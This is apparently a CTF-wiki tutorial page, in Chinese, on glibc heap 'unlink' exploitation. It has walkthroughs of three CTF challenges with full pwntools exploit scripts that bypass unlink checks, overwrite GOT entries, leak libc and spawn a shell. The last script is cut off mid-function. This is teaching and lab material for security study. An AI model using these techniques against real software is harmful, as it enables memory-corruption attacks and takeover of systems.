


[EN](./unlink.md) | [ZH](./unlink-zh.md)
---
typora-root-url: ../../../docs
---

# Unlink

## 原理

我们在利用 unlink 所造成的漏洞时，其实就是对进行 unlink chunk 进行内存布局，然后借助 unlink 操作来达成修改指针的效果。

我们先来简单回顾一下 unlink 的目的与过程，其目的是把一个双向链表中的空闲块拿出来（例如 free 时和目前物理相邻的 free chunk 进行合并）。其基本的过程如下


下面我们首先介绍一下 unlink 最初没有防护时的利用方法，然后介绍目前利用 unlink 的方式。

### 古老的 unlink

在最初 unlink 实现的时候，其实是没有对 chunk 的 size 检查和双向链表检查的，即没有如下检查代码。

```c
// 由于 P 已经在双向链表中，所以有两个地方记录其大小，所以检查一下其大小是否一致(size检查)
if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");			      \
// 检查 fd 和 bk 指针(双向链表完整性检查)
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
  malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \

  // largebin 中 next_size 双向链表完整性检查 
              if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)              \
                || __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    \
              malloc_printerr (check_action,                                      \
                               "corrupted double-linked list (not small)",    \
                               P, AV);
```
**这里我们以 32 位为例**，假设堆内存最初的布局是下面的样子



现在有物理空间连续的两个 chunk（Q，Nextchunk），其中 Q 处于使用状态、Nextchunk 处于释放状态。那么如果我们通过某种方式（**比如溢出**）将 Nextchunk 的 fd 和 bk 指针修改为指定的值。则当我们free(Q)时

- glibc 判断这个块是 small chunk
- 判断前向合并，发现前一个 chunk 处于使用状态，不需要前向合并
- 判断后向合并，发现后一个 chunk 处于空闲状态，需要合并
- 继而对 Nextchunk 采取 unlink 操作

那么 unlink 具体执行的效果是什么样子呢？我们可以来分析一下

- FD=P->fd = target addr -12
- BK=P->bk = expect value
- FD->bk = BK，即 *(target addr-12+12)=BK=expect value
- BK->fd = FD，即*(expect value +8) = FD = target addr-12

**看起来我们似乎可以通过 unlink 直接实现任意地址读写的目的，但是我们还是需要确保 expect value +8 地址具有可写的权限。**

比如说我们将 target addr 设置为某个 got 表项，那么当程序调用对应的 libc 函数时，就会直接执行我们设置的值（expect value）处的代码。**需要注意的是，expect value+8 处的值被破坏了，需要想办法绕过。**

### 当前的 unlink

**但是，现实是残酷的。。**我们刚才考虑的是没有检查的情况，但是一旦加上检查，就没有这么简单了。我们看一下对 fd 和 bk 的检查

```c
// fd bk
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
  malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \
```

此时

- FD->bk = target addr - 12 + 12=target_addr
- BK->fd = expect value + 8

那么我们上面所利用的修改 GOT 表项的方法就可能不可用了。但是我们可以通过伪造的方式绕过这个机制。

首先我们通过覆盖，将 nextchunk 的 FD 指针指向了 fakeFD，将 nextchunk 的 BK 指针指向了 fakeBK 。那么为了通过验证，我们需要

- `fakeFD -> bk == P`  <=>  `*(fakeFD + 12) == P`
- `fakeBK -> fd == P`  <=>  `*(fakeBK + 8) == P`

当满足上述两式时，可以进入 Unlink 的环节，进行如下操作：

- `fakeFD -> bk = fakeBK`  <=>  `*(fakeFD + 12) = fakeBK`
- `fakeBK -> fd = fakeFD`  <=>  `*(fakeBK + 8) = fakeFD`

如果让 fakeFD + 12 和 fakeBK + 8 指向同一个指向P的指针，那么：

- `*P = P - 8`
- `*P = P - 12`

即通过此方式，P 的指针指向了比自己低 12 的地址处。此方法虽然不可以实现任意地址写，但是可以修改指向 chunk 的指针，这样的修改是可以达到一定的效果的。

如果我们想要使得两者都指向 P，只需要按照如下方式修改即可



需要注意的是，这里我们并没有违背下面的约束，因为 P 在 Unlink 前是指向正确的 chunk 的指针。

```c
    // 由于P已经在双向链表中，所以有两个地方记录其大小，所以检查一下其大小是否一致。
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");			      \
```

**此外，其实如果我们设置next chunk 的 fd 和 bk 均为 nextchunk 的地址也是可以绕过上面的检测的。但是这样的话，并不能达到修改指针内容的效果。**

## 利用思路

### 条件

1. UAF ，可修改 free 状态下 smallbin 或是 unsorted bin 的 fd 和 bk 指针
2. 已知位置存在一个指针指向可进行 UAF 的 chunk

### 效果

使得已指向 UAF chunk 的指针 ptr 变为 ptr - 0x18

### 思路

设指向可 UAF chunk 的指针的地址为 ptr

1. 修改 fd 为 ptr - 0x18
2. 修改 bk 为 ptr - 0x10
3. 触发 unlink

ptr 处的指针会变为 ptr - 0x18。

## 2014 HITCON stkof

[题目链接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/unlink/2014_hitcon_stkof)

### 基本信息

```shell
➜  2014_hitcon_stkof git:(master) file stkof
stkof: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=4872b087443d1e52ce720d0a4007b1920f18e7b0, stripped
➜  2014_hitcon_stkof git:(master) checksec stkof
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/unlink/2014_hitcon_stkof/stkof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

可以看出，程序是 64 位的，主要开启了 Canary 和 NX 保护。

### 基本功能

程序存在 4 个功能，经过 IDA 分析后可以分析功能如下

- alloc：输入 size，分配 size 大小的内存，并在 bss 段记录对应 chunk 的指针，假设其为 global
- read_in：根据指定索引，向分配的内存处读入数据，数据长度可控，**这里存在堆溢出的情况**
- free：根据指定索引，释放已经分配的内存块
- useless：这个功能并没有什么卵用，本来以为是可以输出内容，结果什么也没有输出

### IO 缓冲区问题分析

值得注意的是，由于程序本身没有进行 setbuf 操作，所以在执行输入输出操作的时候会申请缓冲区。这里经过测试，会申请两个缓冲区，分别大小为 1024 和 1024。具体如下，可以进行调试查看

初次调用 fgets 时，malloc 会分配缓冲区 1024 大小。

```
*RAX  0x0
*RBX  0x400
*RCX  0x7ffff7b03c34 (__fxstat64+20) ◂— cmp    rax, -0x1000 /* 'H=' */
*RDX  0x88
*RDI  0x400
*RSI  0x7fffffffd860 ◂— 0x16
*R8   0x1
*R9   0x0
*R10  0x7ffff7fd2700 ◂— 0x7ffff7fd2700
*R11  0x246
*R12  0xa
*R13  0x9
 R14  0x0
*R15  0x7ffff7dd18e0 (_IO_2_1_stdin_) ◂— 0xfbad2288
*RBP  0x7ffff7dd18e0 (_IO_2_1_stdin_) ◂— 0xfbad2288
*RSP  0x7fffffffd858 —▸ 0x7ffff7a7a1d5 (_IO_file_doallocate+85) ◂— mov    rsi, rax
*RIP  0x7ffff7a91130 (malloc) ◂— push   rbp
─────────────────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────────────────
 ► 0x7ffff7a91130 <malloc>        push   rbp <0x7ffff7dd18e0>
...，省略
 ► f 0     7ffff7a91130 malloc
   f 1     7ffff7a7a1d5 _IO_file_doallocate+85
   f 2     7ffff7a88594 _IO_doallocbuf+52
   f 3     7ffff7a8769c _IO_file_underflow+508
   f 4     7ffff7a8860e _IO_default_uflow+14
   f 5     7ffff7a7bc6a _IO_getline_info+170
   f 6     7ffff7a7bd78
   f 7     7ffff7a7ab7d fgets+173
   f 8           400d2e
   f 9     7ffff7a2d830 __libc_start_main+240
```

分配之后，堆如下

```
pwndbg> heap
Top Chunk: 0xe05410
Last Remainder: 0

0xe05000 PREV_INUSE {
  prev_size = 0,
  size = 1041,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
0xe05410 PREV_INUSE {
  prev_size = 0,
  size = 134129,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
```

当分配16大小的内存后，堆布局如下

```
pwndbg> heap
Top Chunk: 0xe05430
Last Remainder: 0

0xe05000 PREV_INUSE {
  prev_size = 0,
  size = 1041,
  fd = 0xa3631,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
0xe05410 FASTBIN {
  prev_size = 0,
  size = 33,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x20bd1
}
0xe05430 PREV_INUSE {
  prev_size = 0,
  size = 134097,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
```

当使用 printf 函数，会分配 1024 字节空间，如下

```
*RAX  0x0
*RBX  0x400
*RCX  0x7ffff7b03c34 (__fxstat64+20) ◂— cmp    rax, -0x1000 /* 'H=' */
*RDX  0x88
*RDI  0x400
*RSI  0x7fffffffd1c0 ◂— 0x16
 R8   0x0
*R9   0x0
*R10  0x0
*R11  0x246
*R12  0x1
*R13  0x7fffffffd827 ◂— 0x31 /* '1' */
 R14  0x0
*R15  0x400de4 ◂— and    eax, 0x2e000a64 /* '%d\n' */
*RBP  0x7ffff7dd2620 (_IO_2_1_stdout_) ◂— 0xfbad2284
*RSP  0x7fffffffd1b8 —▸ 0x7ffff7a7a1d5 (_IO_file_doallocate+85) ◂— mov    rsi, rax
*RIP  0x7ffff7a91130 (malloc) ◂— push   rbp
─────────────────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────────────────
 ► 0x7ffff7a91130 <malloc>       push   rbp <0x7ffff7dd2620>
。。。省略
► f 0     7ffff7a91130 malloc
   f 1     7ffff7a7a1d5 _IO_file_doallocate+85
   f 2     7ffff7a88594 _IO_doallocbuf+52
   f 3     7ffff7a878f8 _IO_file_overflow+456
   f 4     7ffff7a8628d _IO_file_xsputn+173
   f 5     7ffff7a5ae00 vfprintf+3216
   f 6     7ffff7a62899 printf+153
   f 7           4009cd
   f 8           400cb1
   f 9     7ffff7a2d830 __libc_start_main+240

```

堆布局如下

```
pwndbg> heap
Top Chunk: 0xe05840
Last Remainder: 0

0xe05000 PREV_INUSE {
  prev_size = 0,
  size = 1041,
  fd = 0xa3631,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
0xe05410 FASTBIN {
  prev_size = 0,
  size = 33,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x411
}
0xe05430 PREV_INUSE {
  prev_size = 0,
  size = 1041,
  fd = 0xa4b4f,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
0xe05840 PREV_INUSE {
  prev_size = 0,
  size = 133057,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
```

此后，无论是输入输出都不会再申请缓冲区了。所以我们最好最初的申请一个 chunk 来把这些缓冲区给申请了，方便之后操作。

但是，比较有意思的是，如果我们是 attach 上去的话，第一个缓冲区分配的大小为 4096 大小。

```
pwndbg> heap
Top Chunk: 0x1e9b010
Last Remainder: 0

0x1e9a000 PREV_INUSE {
  prev_size = 0,
  size = 4113,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
0x1e9b010 PREV_INUSE {
  prev_size = 0,
  size = 135153,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}

```

### 基本思路

根据上面分析，我们在前面先分配一个 chunk 来把缓冲区分配完毕，以免影响之后的操作。

由于程序本身没有 leak，要想执行 system 等函数，我们的首要目的还是先构造 leak，基本思路如下

- 利用 unlink 修改 global[2] 为 &global[2]-0x18。
- 利用编辑功能修改 global[0] 为 free@got 地址，同时修改 global[1] 为puts@got 地址，global[2] 为 atoi@got 地址。
- 修改 `free@got` 为 `puts@plt` 的地址，从而当再次调用 `free` 函数时，即可直接调用 puts 函数。这样就可以泄漏函数内容。
- free global[2]，即泄漏 puts@got 内容，从而知道 system 函数地址以及 libc 中 /bin/sh 地址。
- 修改 `atoi@got` 为 system 函数地址，再次调用时，输入 /bin/sh 地址即可。

代码如下

```python
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
context.binary = "./stkof"
stkof = ELF('./stkof')
if args['REMOTE']:
    p = remote('127.0.0.1', 7777)
else:
    p = process("./stkof")
log.info('PID: ' + str(proc.pidof(p)[0]))
libc = ELF('./libc.so.6')
head = 0x602140


def alloc(size):
    p.sendline('1')
    p.sendline(str(size))
    p.recvuntil('OK\n')


def edit(idx, size, content):
    p.sendline('2')
    p.sendline(str(idx))
    p.sendline(str(size))
    p.send(content)
    p.recvuntil('OK\n')


def free(idx):
    p.sendline('3')
    p.sendline(str(idx))


def exp():
    # trigger to malloc buffer for io function
    alloc(0x100)  # idx 1
    # begin
    alloc(0x30)  # idx 2
    # small chunk size in order to trigger unlink
    alloc(0x80)  # idx 3
    # a fake chunk at global[2]=head+16 who's size is 0x20
    payload = p64(0)  #prev_size
    payload += p64(0x20)  #size
    payload += p64(head + 16 - 0x18)  #fd
    payload += p64(head + 16 - 0x10)  #bk
    payload += p64(0x20)  # next chunk's prev_size bypass the check
    payload = payload.ljust(0x30, 'a')

    # overwrite global[3]'s chunk's prev_size
    # make it believe that prev chunk is at global[2]
    payload += p64(0x30)

    # make it believe that prev chunk is free
    payload += p64(0x90)
    edit(2, len(payload), payload)

    # unlink fake chunk, so global[2] =&(global[2])-0x18=head-8
    free(3)
    p.recvuntil('OK\n')

    # overwrite global[0] = free@got, global[1]=puts@got, global[2]=atoi@got
    payload = 'a' * 8 + p64(stkof.got['free']) + p64(stkof.got['puts']) + p64(
        stkof.got['atoi'])
    edit(2, len(payload), payload)

    # edit free@got to puts@plt
    payload = p64(stkof.plt['puts'])
    edit(0, len(payload), payload)

    # free global[1] to leak puts addr
    free(1)
    puts_addr = p.recvuntil('\nOK\n', drop=True).ljust(8, '\x00')
    puts_addr = u64(puts_addr)
    log.success('puts addr: ' + hex(puts_addr))
    libc_base = puts_addr - libc.symbols['puts']
    binsh_addr = libc_base + next(libc.search('/bin/sh'))
    system_addr = libc_base + libc.symbols['system']
    log.success('libc base: ' + hex(libc_base))
    log.success('/bin/sh addr: ' + hex(binsh_addr))
    log.success('system addr: ' + hex(system_addr))

    # modify atoi@got to system addr
    payload = p64(system_addr)
    edit(2, len(payload), payload)
    p.send(p64(binsh_addr))
    p.interactive()


if __name__ == "__main__":
    exp()
```

## 2016 ZCTF note2
[题目链接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/unlink/2016_zctf_note2)

### 分析程序

首先，我们先分析一下程序，可以看出程序的主要功能为

- 添加note，size限制为0x80，size会被记录，note指针会被记录。
- 展示note内容。
- 编辑note内容，其中包括覆盖已有的note，在已有的note后面添加内容。
- 释放note。

仔细分析后，可以发现程序有以下几个问题

1. 在添加note时，程序会记录note对应的大小，该大小会用于控制读取note的内容，但是读取的循环变量i是无符号变量，所以比较时都会转换为无符号变量，那么当我们输入size为0时，glibc根据其规定，会分配0x20个字节，但是程序读取的内容却并不受到限制，故而会产生堆溢出。
2. 程序在每次编辑note时，都会申请0xa0大小的内存，但是在 free 之后并没有设置为NULL。

第一个问题对应在ida中的代码如下

```c
unsigned __int64 __fastcall ReadLenChar(__int64 a1, __int64 a2, char a3)
{
  char v4; // [sp+Ch] [bp-34h]@1
  char buf; // [sp+2Fh] [bp-11h]@2
  unsigned __int64 i; // [sp+30h] [bp-10h]@1
  __int64 v7; // [sp+38h] [bp-8h]@2

  v4 = a3;
  for ( i = 0LL; a2 - 1 > i; ++i )
  {
    v7 = read(0, &buf, 1uLL);
    if ( v7 <= 0 )
      exit(-1);
    if ( buf == v4 )
      break;
    *(_BYTE *)(i + a1) = buf;
  }
  *(_BYTE *)(a1 + i) = 0;
  return i;
}
```

其中i是unsigned类型，a2为int类型，所以两者在for循环相比较的时候，a2-1的结果-1会被视为unsigned类型，此时，即最大的整数。所以说可以读取任意长度的数据，这里也就是后面我们溢出所使用的办法。

### 基本思路

这里我们主要利用发现的第一个问题，主要利用了 fastbin 的机制、unlink 的机制。

下面依次进行讲解。

#### 基本操作

首先，我们先把note可能的基本操作列举出来。

```python
p = process('./note2')
note2 = ELF('./note2')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.log_level = 'debug'


def newnote(length, content):
    p.recvuntil('option--->>')
    p.sendline('1')
    p.recvuntil('(less than 128)')
    p.sendline(str(length))
    p.recvuntil('content:')
    p.sendline(content)


def shownote(id):
    p.recvuntil('option--->>')
    p.sendline('2')
    p.recvuntil('note:')
    p.sendline(str(id))


def editnote(id, choice, s):
    p.recvuntil('option--->>')
    p.sendline('3')
    p.recvuntil('note:')
    p.sendline(str(id))
    p.recvuntil('2.append]')
    p.sendline(str(choice))
    p.sendline(s)


def deletenote(id):
    p.recvuntil('option--->>')
    p.sendline('4')
    p.recvuntil('note:')
    p.sendline(str(id))
```

#### 生成三个note

构造三个 chunk，chunk0、chunk1 和 chunk2

```python
# chunk0: a fake chunk
ptr = 0x0000000000602120
fakefd = ptr - 0x18
fakebk = ptr - 0x10
content = 'a' * 8 + p64(0x61) + p64(fakefd) + p64(fakebk) + 'b' * 64 + p64(0x60)
#content = p64(fakefd) + p64(fakebk)
newnote(128, content)
# chunk1: a zero size chunk produce overwrite
newnote(0, 'a' * 8)
# chunk2: a chunk to be overwrited and freed
newnote(0x80, 'b' * 16)
```

其中这三个 chunk 申请时的大小分别为0x80，0，0x80，chunk1 虽然申请的大小为0，但是 glibc 的要求 chunk 块至少可以存储 4 个必要的字段(prev\_size,size,fd,bk)，所以会分配 0x20 的空间。同时，由于无符号整数的比较问题，可以为该note输入任意长的字符串。

这里需要注意的是，chunk0 中一共构造了两个 chunk

- chunk ptr[0]，这个是为了 unlink 时修改对应的值。
- chunk ptr[0]'s nextchunk，这个是为了使得 unlink 时的第一个检查满足。

```c
    // 由于P已经在双向链表中，所以有两个地方记录其大小，所以检查一下其大小是否一致。
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");			      \
```

当构造完三个 note 后，堆的基本构造如图1所示。

```
                                   +-----------------+ high addr
                                   |      ...        |
                                   +-----------------+
                                   |      'b'*8      |
                ptr[2]-----------> +-----------------+
                                   |    size=0x91    |
                                   +-----------------+
                                   |    prevsize     |
                                   +-----------------|------------
                                   |    unused       |
                                   +-----------------+
                                   |    'a'*8        |
                 ptr[1]----------> +-----------------+  chunk 1
                                   |    size=0x20    |
                                   +-----------------+
                                   |    prevsize     |
                                   +-----------------|-------------
                                   |    unused       |
                                   +-----------------+
                                   |  prev_size=0x60 |
fake ptr[0] chunk's nextchunk----->+-----------------+
                                   |    64*'a'       |
                                   +-----------------+
                                   |    fakebk       |
                                   +-----------------+
                                   |    fakefd       |
                                   +-----------------+
                                   |    0x61         |  chunk 0
                                   +-----------------+
                                   |    'a *8        |
                 ptr[0]----------> +-----------------+
                                   |    size=0x91    |
                                   +-----------------+
                                   |    prev_size    |
                                   +-----------------+  low addr
                                           图1
```

#### 释放 chunk1-覆盖 chunk2-释放 chunk2

对应的代码如下

```python
# edit the chunk1 to overwrite the chunk2
deletenote(1)
content = 'a' * 16 + p64(0xa0) + p64(0x90)
newnote(0, content)
# delete note 2 to trigger the unlink
# after unlink, ptr[0] = ptr - 0x18
deletenote(2)
```

首先释放 chunk1，由于该chunk属于fastbin，所以下次在申请的时候仍然会申请到该chunk，同时由于上面所说的类型问题，我们可以读取任意字符，所以就可以覆盖chunk2，覆盖之后如图2所示。

```
                                   +-----------------+high addr
                                   |      ...        |
                                   +-----------------+
                                   |   '\x00'+'b'*7  |
                ptr[2]-----------> +-----------------+ chunk 2
                                   |    size=0x90    |
                                   +-----------------+
                                   |    0xa0         |
                                   +-----------------|------------
                                   |    'a'*8        |
                                   +-----------------+
                                   |    'a'*8        |
                 ptr[1]----------> +-----------------+ chunk 1
                                   |    size=0x20    |
                                   +-----------------+
                                   |    prevsize     |
                                   +-----------------|-------------
                                   |    unused       |
                                   +-----------------+
                                   |  prev_size=0x60 |
fake ptr[0] chunk's nextchunk----->+-----------------+
                                   |    64*'a'       |
                                   +-----------------+
                                   |    fakebk       |
                                   +-----------------+
                                   |    fakefd       |
                                   +-----------------+
                                   |    0x61         |  chunk 0
                                   +-----------------+
                                   |    'a *8        |
                 ptr[0]----------> +-----------------+
                                   |    size=0x91    |
                                   +-----------------+
                                   |    prev_size    |
                                   +-----------------+  low addr
                                           图2
```

该覆盖主要是为了释放chunk2的时候可以后向合并（合并低地址），对chunk0中虚拟构造的chunk进行unlink。即将要执行的操作为unlink(ptr[0])，同时我们所构造的fakebk和fakefd满足如下约束

```c
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
```

unlink成功执行，会导致ptr[0]所存储的地址变为fakebk，即ptr-0x18。

#### 获取system地址

代码如下

```python
# overwrite the chunk0(which is ptr[0]) with got atoi
atoi_got = note2.got['atoi']
content = 'a' * 0x18 + p64(atoi_got)
editnote(0, 1, content)
# get the aoti addr
shownote(0)

sh.recvuntil('is ')
atoi_addr = sh.recvuntil('\n', drop=True)
print atoi_addr
atoi_addr = u64(atoi_addr.ljust(8, '\x00'))
print 'leak atoi addr: ' + hex(atoi_addr)

# get system addr
atoi_offest = libc.symbols['atoi']
libcbase = atoi_addr - atoi_offest
system_offest = libc.symbols['system']
system_addr = libcbase + system_offest

print 'leak system addr: ', hex(system_addr)
```

我们修改ptr[0]的内容为 ptr 的地址-0x18，所以当我们再次编辑 note0 时，可以覆盖ptr[0]的内容。这里我们将其覆盖为atoi的地址。
这样的话，如果我们查看note 0的内容，其实查看的就是atoi的地址。

之后我们根据 libc 中对应的偏移计算出 system 的地址。

#### 修改atoi got

```python
# overwrite the atoi got with systemaddr
content = p64(system_addr)
editnote(0, 1, content)
```

由于此时 ptr[0] 的地址 got 表的地址，所以我们可以直接修改该 note，覆盖为 system 地址。

#### get shell

```python
# get shell
sh.recvuntil('option--->>')
sh.sendline('/bin/sh')
sh.interactive()
```

此时如果我们再调用 atoi ，其实调用的就是 system 函数，所以就可以拿到shell了。

## 2017 insomni'hack wheelofrobots
[题目链接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/unlink/2017_insomni'hack_wheelofrobots)

### 基本信息

```shell
➜  2017_insomni'hack_wheelofrobots git:(master) file wheelofrobots
wheelofrobots: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=48a9cceeb7cf8874bc05ccf7a4657427fa4e2d78, stripped
➜  2017_insomni'hack_wheelofrobots git:(master) checksec wheelofrobots
[*] "/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/unlink/2017_insomni'hack_wheelofrobots/wheelofrobots"
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

动态链接64位，主要开启了 canary 保护与 nx 保护。

### 基本功能

大概分析程序，可以得知，这是一个配置机器人轮子的游戏，机器人一共需要添加 3 个轮子。

程序非常依赖的一个功能是读取整数，该函数read_num是读取指定的长度，将其转化为 int 类型的数字。

具体功能如下

- 添加轮子，一共有 6 个轮子可以选择。选择轮子时使用函数是read_num，然而该函数在读取的时候`read_num((char *)&choice, 5uLL);` 读取的长度是 5 个字节，恰好覆盖了 bender_inuse 的最低字节，即构成了 off-by-one 漏洞。与此同时，在添加 Destructor 轮子的时候，并没有进行大小检测。如果读取的数为负数，那么在申请`calloc(1uLL, 20 * v5);` 时就可能导致 `20*v5` 溢出，但与此同时， `destructor_size = v5`  仍然会很大。
- 移除轮子，直接将相应轮子移除，但是并没有将其对应的指针设置为 NULL ，其对应的大小也没有清空。
- 修改轮子名字，这个是根据当时申请的轮子的大小空间来读取数据。之前我们已经说过 destructor 轮子读取大小时，并没有检测负数的情况，所以在进行如下操作时 `result = read(0, destructor, 20 * destructor_size);` ，存在几乎任意长度溢出的漏洞。
- 启动机器人，在启动的时候会随机地输出一些轮子的名称，这个是我们难以控制的。

综上分析，我们可以知道的是，该程序主要存在的漏洞 off-by-one 与整数溢出。这里我们主要使用前面的off-by-one 漏洞。

### 利用思路

基本利用思路如下

1. 利用 off by one 漏洞与 fastbin attack 分配 chunk 到 0x603138，进而可以控制 `destructor_size `的大小，从而实现任意长度堆溢出。这里我们将轮子1 tinny 分配到这里。
2. 分别分配合适大小的物理相邻的 chunk，其中包括 destructor。借助上面可以任意长度堆溢出的漏洞，对 destructor 对应的 chunk 进行溢出，将其溢出到下一个物理相邻的 chunk，从而实现对 0x6030E8 处 fake chunk 进行 unlink 的效果，这时 bss 段的 destructor 指向 0x6030D0。从而，我们可以再次实现覆盖bss 段几乎所有的内容。
3. 构造一个任意地址写的漏洞。通过上述的漏洞将已经分配的轮子1 tinny 指针覆盖为 destructor 的地址，那么此后编辑 tinny 即在编辑 destructor 的内容，进而当我们再次编辑 destructor 时就相当于任意低地址写。
4. 由于程序只是在最后启动机器人的时候，才会随机输出一些轮子的内容，并且一旦输出，程序就会退出，由于这部分我们并不能控制，所以我们将 `exit()` patch 为一个 `ret` 地址。这样的话，我们就可以多次输出内容了，从而可以泄漏一些 got 表地址。**其实，既然我们有了任意地址写的漏洞，我们也可以将某个 got 写为 puts 的 plt 地址，进而调用相应函数时便可以直接将相应内容输出。但是这里并不去采用这种方法，因为之前已经在 hitcon stkof 中用过这种手法了。**
5. 在泄漏了相应的内容后，我们便可以得到 libc 基地址，system 地址，libc中的 /bin/sh 地址。进而我们修改 free@got 为 system 地址。从而当再次释放某块内存时，便可以启动shell。

代码如下

```python
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
context.binary = "./wheelofrobots"
robots = ELF('./wheelofrobots')
if args['REMOTE']:
    p = remote('127.0.0.1', 7777)
else:
    p = process("./wheelofrobots")
log.info('PID: ' + str(proc.pidof(p)[0]))
libc = ELF('./libc.so.6')


def offset_bin_main_arena(idx):
    word_bytes = context.word_size / 8
    offset = 4  # lock
    offset += 4  # flags
    offset += word_bytes * 10  # offset fastbin
    offset += word_bytes * 2  # top,last_remainder
    offset += idx * 2 * word_bytes  # idx
    offset -= word_bytes * 2  # bin overlap
    return offset


def add(idx, size=0):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('Your choice :')
    p.sendline(str(idx))
    if idx == 2:
        p.recvuntil("Increase Bender's intelligence: ")
        p.sendline(str(size))
    elif idx == 3:
